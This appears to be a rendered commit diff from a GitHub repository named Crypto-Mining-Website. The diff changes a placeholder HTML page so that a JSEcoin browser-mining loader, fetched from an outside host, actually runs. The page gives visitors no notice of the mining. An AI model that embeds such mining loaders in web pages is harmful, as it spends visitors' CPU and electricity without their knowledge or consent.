

Before and after one commit to NewisLast/Crypto-Mining-Website, a plain HTML site: page JSEcoin.miner.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update JSEcoin.miner.html

```diff
--- a/JSEcoin.miner.html
+++ b/JSEcoin.miner.html
@@ -4,5 +4,6 @@
   </head>
   <body>
     <p>asdjfasudihfaliuds</p>
-    !function(){var e=document,t=e.createElement("script"),s=e.getElementsByTagName("script")[0];t.type="text/javascript",t.async=t.defer=!0,t.src="https://load.jsecoin.com/load/42718/xasrieldreemurr.github.io/jsewebsite/0/",s.parentNode.insertBefore(t,s)}();
-  </body>
+<script type="text/javascript">
+!function(){var e=document,t=e.createElement("script"),s=e.getElementsByTagName("script")[0];t.type="text/javascript",t.async=t.defer=!0,t.src="https://load.jsecoin.com/load/42718/xasrieldreemurr.github.io/optionalSubID/0/",s.parentNode.insertBefore(t,s)}();
+</script>  </body>
```
